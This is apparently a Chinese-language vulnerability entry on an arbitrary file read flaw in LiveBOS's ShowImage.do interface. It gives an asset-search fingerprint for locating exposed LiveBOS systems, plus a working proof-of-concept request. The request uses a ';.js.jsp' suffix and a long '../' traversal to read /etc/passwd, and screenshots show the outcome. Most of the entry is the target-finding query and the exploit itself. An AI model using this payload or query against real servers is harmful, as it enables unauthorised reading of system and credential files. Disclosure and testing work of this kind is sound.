 # LiveBOS ShowImage.do 任意文件读取漏洞

## 漏洞描述

LiveBOS ShowImage.do 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件

## 漏洞影响

<a-checkbox checked>LiveBOS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="LiveBOS-框架"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1692167542101-f3880815-0b7c-4042-ba05-367aba446765.png)

验证POC

```plain
/feed/ShowImage.do;.js.jsp?type=&imgName=../../../../../../../../../../../../../../../etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1692167639036-b19192bb-12d1-4dff-bda7-02d6fa610224.png)
